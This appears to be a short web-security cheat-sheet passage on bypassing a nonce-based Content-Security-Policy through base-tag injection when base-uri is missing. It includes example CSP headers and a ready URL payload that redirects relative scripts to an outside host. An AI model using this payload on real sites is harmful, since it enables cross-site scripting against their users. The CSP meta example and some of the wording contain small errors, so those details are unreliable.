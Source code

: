 <!-- TODO:  -->
A dangling markup injection can be performed if the `base-uri` directive is absent in the defined CSP. Attackers can abuse the base tag to contain an XSS by making the page load a script from a server they control, if the script has a relative path (i.e `/js/app.js`). An HTTPS URL should be used if the vulnerable page is loaded over HTTPS.

In order for this to work, the CSP tag or header must contain the following:
```html
<meta http-equiv="Content-Security-Policy" content="script src 'nonce-abcd1234'">
```
```http
HTTP/1.1 200 OK
...
Content-Security-Policy: script-src 'nonce-abcd1234';
```

An attacker can be used the following payload `<Base Href=//X55.is>` as follows:
```txt
http://target-website.com/?name=guest<Base%20Href=//X55.is>
```